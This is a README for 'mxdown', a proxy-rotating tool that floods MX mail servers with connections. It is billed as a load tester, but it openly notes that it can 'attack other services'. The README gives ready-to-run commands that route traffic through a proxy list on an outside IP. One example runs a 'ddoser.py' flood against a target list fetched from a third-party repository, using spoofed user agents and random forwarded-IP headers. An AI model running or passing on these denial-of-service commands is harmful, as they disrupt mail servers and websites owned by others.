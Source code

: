 # mxdown
Check how much load your MX server can handle

To disable debug, please remove `-vvv`

Example:
```shell
./maildown.py --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```

```shell
docker run -it 7d05576ba889  --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```


# mxdown
Check how much load your MX server can handle.
Actually, with two additional options `--just-connect` and `--port 25` can be used to test the load or attack other services.


## Docker run (easy way)
Docker was added to the project - please use it.

## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
## Run
```shell
Usage: maildown.py [OPTIONS]

  Run mxdown

Options:
  --host TEXT                  target host
  --port INTEGER               Port to connect, default: 25
  --sleep-delay INTEGER        Time to sleep after connection
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  -v, --verbose                Show verbose log
  --log-to-stdout              log to console
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --shuffle-proxy              Shuffle proxy list on application start
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**mxdown** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
